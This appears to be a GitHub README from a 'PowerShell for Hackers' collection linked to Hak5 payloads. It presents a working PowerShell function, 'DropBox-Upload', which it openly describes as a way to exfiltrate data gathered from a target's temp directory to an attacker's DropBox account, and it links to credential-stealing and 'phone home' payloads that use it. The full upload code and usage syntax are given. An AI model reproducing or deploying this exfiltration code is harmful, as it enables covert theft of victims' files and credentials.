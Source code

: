 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# DropBox-Upload

## Description

This function is used to exfiltrate gathered data to DropBox 

## The Function

### [DropBox-Upload] 

First off for this function to work you need to have a DropBox account. Make one [HERE](https://www.dropbox.com).

Follow this [GUIDE](https://developers.dropbox.com/oauth-guide) for setting up your DropBox account for uploads

Use the following syntax for your upload:

```
DropBox-Upload -FileName "file.txt"

or

"file.txt" | DropBox-Upload
```

Make sure to plug in your newly aquired DropBox token in the $DropBoxAccessToken variable below

(this function will exfiltrate a file from your targets temp directory so make sure you save your aquired data to the same directory)

```
function DropBox-Upload {

[CmdletBinding()]
param (
	
[Parameter (Mandatory = $True, ValueFromPipeline = $True)]
[string]$FileName
) 
$DropBoxAccessToken = ""   # Replace with your DropBox Access Token
$TargetFilePath="/$FileName"
$SourceFilePath="$env:TMP\$FileName"
$arg = '{ "path": "' + $TargetFilePath + '", "mode": "add", "autorename": true, "mute": false }'
$authorization = "Bearer " + $DropBoxAccessToken
$headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]"
$headers.Add("Authorization", $authorization)
$headers.Add("Dropbox-API-Arg", $arg)
$headers.Add("Content-Type", 'application/octet-stream')
Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
}
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that have used one of these functions:

[ADV-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)

[ET-Phone-Home](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ET-Phone-Home)

[Credz-Plz](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Credz-Plz)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  [Project Link](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)


<p align="right">(<a href="#top">back to top</a>)</p>
